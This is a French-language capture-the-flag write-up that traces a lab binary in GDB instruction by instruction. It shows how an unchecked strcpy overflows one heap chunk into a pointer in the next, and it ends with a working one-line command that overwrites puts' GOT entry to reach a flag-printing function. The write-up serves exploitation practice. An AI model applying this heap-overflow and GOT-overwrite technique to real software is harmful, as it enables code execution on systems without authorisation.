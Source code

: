 Legend:
=> endroit ou l on est dans GDB
*=> Moments cle qui aboutissent a l exploitation

Variables utiles:
argv[1]: 0xbffff8e0
argv[2]: 0xbffff8f5
malloc_1: 0x0804a008
malloc_2: 0x0804a018
malloc_3: 0x0804a028
malloc_3+4: 0x804a02c
malloc_4: 0x0804a038


=> <+3>: and esp,0xfffffff0
(gdb) x/20wx $esp
0xbffff708:     0x00000000      0xb7e454d3      0x00000003      0xbffff7a4
0xbffff718:     0xbffff7b4      0xb7fdc858      0x00000000      0xbffff71c
0xbffff728:     0xbffff7b4      0x00000000      0x0804825c      0xb7fd0ff4
0xbffff738:     0x00000000      0x00000000      0x00000000      0x9faf8153
0xbffff748:     0xa8e88543      0x00000000      0x00000000      0x00000000
(gdb) x/wx $esp+12
0xbffff714:     0xbffff7a4
(gdb) x/wx 0xbffff7a4
0xbffff7a4:     0xbffff8c7
(gdb) x/10s 0xbffff8c7
0xbffff8c7:      "/home/user/level7/level7"
0xbffff8e0:      'A' <repeats 20 times>
0xbffff8f5:      'B' <repeats 20 times>
0xbffff90a:      "SHELL=/bin/bash"

=> <+6>: sub esp,0x20
(gdb) x/20wx $esp
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000
0xbffff730:     0x0804825c      0xb7fd0ff4      0x00000000      0x00000000
0xbffff740:     0x00000000      0x9faf8153      0xa8e88543      0x00000000

=> <+9>: mov DWORD PTR [esp],0x8
(gdb) x/20wx $esp
0xbffff6e0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff6f0:     0xb7fed280      0x00000000      0x08048619      0xb7fd0ff4
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000

*=> <+16>: call   0x80483f0 <malloc@plt>: malloc(8) -> 0x0804a008 malloc_1

=> <+21>: mov DWORD PTR [esp+0x1c],eax : Push de malloc_1 dans la valeur de esp+28
   0xbffff6fc->0x0804a008->(0x00000000)

=> <+29>: mov DWORD PTR [eax],0x1: On met 0x1 dans malloc_1
(gdb) x/x $eax
0x0804a008: 0x00000001

=> <+35>: mov DWORD PTR [esp],0x8: Push de 0x8 sur la stack
(gdb) x/20xw $esp
0xbffff6e0:     0x00000008      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff6f0:     0xb7fed280      0x00000000      0x08048619      0x0804a008
0xbffff700:     0x08048610      0x00000000      0x00000000      0xb7e454d3
0xbffff710:     0x00000003      0xbffff7a4      0xbffff7b4      0xb7fdc858
0xbffff720:     0x00000000      0xbffff71c      0xbffff7b4      0x00000000

*=> <+42>: call 0x80483f0 <malloc@plt> malloc(8) -> 0x804a018 malloc_2

=> <+47>: mov edx,eax: On met l'adresse de malloc_2 dans l'adresse de $edx

=> <+49>: mov eax,DWORD PTR [esp+0x1c]: on met l adresse de malloc_1 dans $eax

*=> <+53>: mov DWORD PTR [eax+0x4],edx : On met l'adresse de malloc_2 dans la valeur de malloc_1 + 4

=> <+56>: mov DWORD PTR [esp],0x8 : On met 0 en valeur sur la stack

*=> <+63>: call 0x80483f0 <malloc@plt> : malloc(8)
malloc_3 -> 0x0804a028

=> <+68>: mov DWORD PTR [esp+0x18],eax : on met l'adresse de malloc_3 dans la valeur de esp+0x18
(gdb) x/x $esp+0x18
0xbffff6f8:     0x0804a028

=> <+76>: mov DWORD PTR [eax],0x2 : On met 0x2 dans la valeur de malloc_3
(gdb) x/x $eax
0x804a028:      0x00000002

=> <+82>: mov DWORD PTR [esp],0x8 : On met 8 dans la valeur de esp

*=> <+89>:    call   0x80483f0 <malloc@plt> : malloc(8) malloc_4
malloc_4 -> 0x0804a038

=> <+94>: mov edx,eax : addresse de malloc_4 dans l adresse de $edx

=> <+96>: mov eax,DWORD PTR [esp+0x18] : On met l'adresse de malloc_3 dans $eax

=> <+100>: mov DWORD PTR [eax+0x4],edx : on met l adresse de malloc_4 dans malloc_3+4
(gdb) x/x $eax+4
0x804a02c:      0x0804a038

=> <+103>: mov eax,DWORD PTR [ebp+0xc] : On met une adresse qui pointe sur l'adresse de argv[0] du main dans $eax
(gdb) x/xw $ebp+0xc
0xbffff714:     0xbffff7a4
(gdb) x/xw 0xbffff7a4
0xbffff7a4:     0xbffff8c7
(gdb) x/s 0xbffff8c7
0xbffff8c7:      "/home/user/level7/level7"

=> <+106>: add eax,0x4 : On ajoute 4 a l adresse pour arriver a l adresse de argv[1]

=><+109>: mov eax,DWORD PTR [eax] : On met l'adresse direct de argv[1] comme adresse de $eax
(gdb) x/xw $eax
0xbffff8e0:     0x41414141


*=> <+111>: mov edx,eax : on met l adresse de argv[1] dans $edx
(gdb) x/xw $edx
0xbffff8e0:     0x41414141

*=> <+113>: mov eax,DWORD PTR [esp+0x1c] : on met l'adresse de malloc_1 dans $eax
(gdb) x/x $eax
0x804a008:      0x00000001

=> <+117>: mov eax,DWORD PTR [eax+0x4] : on prend l'adresse de malloc_2 dans $eax
(gdb) x/x $eax
0x804a018:      0x00000000

=> <+120>: mov DWORD PTR [esp+0x4],edx : on met l adresse de l'adresse de argv[1] dans la valeur de $esp+4

=> <+124>: mov DWORD PTR [esp],eax : on met l'adresse de malloc_2 dans la valeur de $esp

**=> <+127>: call 0x80483e0 <strcpy@plt> : strcpy(malloc_2, argv[1])
     Ici on va copier argv[1] dans malloc[2] et donc depasser autant que l on veut si besoin !

=> <+132>: mov eax,DWORD PTR [ebp+0xc] : On met l adresse qui contient l adresse d'argv[0] dans $eax

=> <+135>: add eax,0x8 : on ajoute 8 a $eax pour arriver a l'adresse qui contient l'adresse de argv[2]
(gdb) x/xw $eax
0xbffff7ac:     0xbffff8f5
(gdb) x/s 0xbffff8f5
0xbffff8f5:      'B' <repeats 20 times>

=> <+138>: mov eax,DWORD PTR [eax] : On met l'adresse direct de argv[2] dans $eax
(gdb) x/s $eax
0xbffff8f5:      'B' <repeats 20 times>

=> <+140>: mov edx,eax : On met l adresse de $eax dans l adresse de $edx

=> <+142>: mov eax,DWORD PTR [esp+0x18] : on met l adresse de malloc_3 dans l adresse de $eax
(gdb) x/xw $esp+0x18
0xbffff6f8:     0x0804a028
(gdb) x/xw 0x0804a028
0x804a028:      0x41414141
    ->(gdb) x/x $eax
    ->0x804a028:      0x41414141

**=> <+146>: mov eax,DWORD PTR [eax+0x4] : On met le contenu de la valeur finale de malloc_3+4 dans l'adresse d'$eax /!\ Donc si j ai bien compris, c'est argv[1][20:24]
(gdb) x/x $eax+4
0x804a02c:      0x0804a000
     ->(gdb) x/x $eax
     ->0x804a000:      0x00000000
/!\ C'est quelque chose que l'on peut overwrite /!\

=> <+149>: mov DWORD PTR [esp+0x4],edx : on met l adresse de argv[2] dans la valeur d'$esp+4

=> <+153>: mov DWORD PTR [esp],eax on met le contenu de malloc_3+4 dans la valeur d'$esp

**=> <+156>: call 0x80483e0 <strcpy@plt> : strcpy([malloc_3+4], argv[2])

donc enfaite a argv[1]+20 on met une adresse et on ecris dedans avec argv[2]


Explication simplifiee:
dans le premier strcpy(malloc_2, argv[1]), on peut deborder sur malloc_3+4.
La valeur de malloc_3+4 deviendra l adresse dans laquelle on va ecrire avec strcpy(malloc_3+4, argv[2])
On peut donc ecrire une adresse d'une autre fonction dans cette adresse et la nouvelle fonction sera appeler a la place de l'ancienne

Dans la fonction "m" on recupere le resultat de la fonction fgets a *main+202 qui est stocker dans l adresse 0x8049960 et l affiche, on affiche aussi le decompte des secondes passees depuis l annee 1970, mais cela ne nous interesse pas.

Nous allons donc remplacer l adresse de puts par l adresse de la fonction "m"

Nous pouvons recuperer l adresse de puts sur la global offset table avec la commande suivante:

level7@RainFall:~$ objdump -R level7
level7:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

et voici l adresse de la fonction "m":
(gdb) x/wx m
0x80484f4 <m>:  0x83e58955


La commande suivante recupere le flag:
./level7 $(python -c "print '\x41' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")









